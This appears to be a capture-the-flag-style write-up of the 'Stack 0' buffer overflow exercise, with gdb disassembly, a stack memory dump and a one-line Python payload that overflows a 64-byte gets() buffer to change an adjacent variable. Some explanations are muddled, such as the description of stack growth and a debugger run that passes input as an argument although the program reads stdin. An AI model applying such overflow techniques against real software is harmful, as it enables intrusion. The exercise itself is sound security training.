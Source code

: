 # Stack 0

### Overview
        The esp(current stack pointer) grows upward when allocating memory 
        and the higher the esp goes, it points to smaller address number.
        Thus, you need to overwrite all the space of buffer(64 bytes) 
        and then overwrite the allocated space for int modified.

### Process
    $ gdb -q ./stack0
    (gdb) disas main
        Dump of assembler code for function main:
            0x080483f4 <+0>:     push   %ebp
            0x080483f5 <+1>:     mov    %esp,%ebp
            0x080483f7 <+3>:     and    $0xfffffff0,%esp
            0x080483fa <+6>:     sub    $0x60,%esp
            0x080483fd <+9>:     movl   $0x0,0x5c(%esp)
            0x08048405 <+17>:    lea    0x1c(%esp),%eax
            0x08048409 <+21>:    mov    %eax,(%esp)
            0x0804840c <+24>:    call   0x804830c <gets@plt>
            0x08048411 <+29>:    mov    0x5c(%esp),%eax
            0x08048415 <+33>:    test   %eax,%eax
            0x08048417 <+35>:    je     0x8048427 <main+51>
            0x08048419 <+37>:    movl   $0x8048500,(%esp)
            0x08048420 <+44>:    call   0x804832c <puts@plt>
            0x08048425 <+49>:    jmp    0x8048433 <main+63>
            0x08048427 <+51>:    movl   $0x8048529,(%esp)
            0x0804842e <+58>:    call   0x804832c <puts@plt>
            0x08048433 <+63>:    leave
            0x08048434 <+64>:    ret
        End of assembler dump.
    (gdb) b *main+29
    (gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
            Breakpoint 1, main (argc=1,argv=0xffffd634) at stack0/stack0.c:13
            13      stack0/stack0.c: No such file or directory.
    (gdb) x/60x $esp
        0xffffd530: 0xffffd54c  0xffffd5d4  0xf7fb8000  0x0000cd57
        0xffffd540: 0xffffffff  0x0000002f  0xf7e12dc8  0x41414141
        0xffffd550: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd560: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd570: 0x41414141  0x41414141  0x00004141  0xf7e34c0b
        0xffffd580: 0xf7fb83dc  0x080481e8  0x0804845b  0x00000000
        0xffffd590: 0xf7fb8000  0xf7fb8000  0x00000000  0xf7e1e637
        0xffffd5a0: 0x00000001  0xffffd634  0xffffd63c  0x00000000
        0xffffd5b0: 0x00000000  0x00000000  0xf7fb8000  0xf7ffdc04
        0xffffd5c0: 0xf7ffd000  0x00000000  0xf7fb8000  0xf7fb8000
        0xffffd5d0: 0x00000000  0x607935e6  0x5c199bf6  0x00000000
        0xffffd5e0: 0x00000000  0x00000000  0x00000001  0x08048340
        0xffffd5f0: 0x00000000  0xf7fedf10  0xf7fe8780  0xf7ffd000
        0xffffd600: 0x00000001  0x08048340  0x00000000  0x08048361
        0xffffd610: 0x080483f4  0x00000001  0xffffd634  0x08048450

    buffer[64]: from last stack of line 0xffffd540 
                to 3rd stack of line 0xffffd580 
                -> 64 bytes needs to be overwritten
    modified: from last stack of line 0xffffd580
### Method
    Use more than 64 bytes to overwrite

### Answer
    $ python -c 'print "A"*68' | ./stack0
    you have changed the 'modified' variable

    

    
    
    
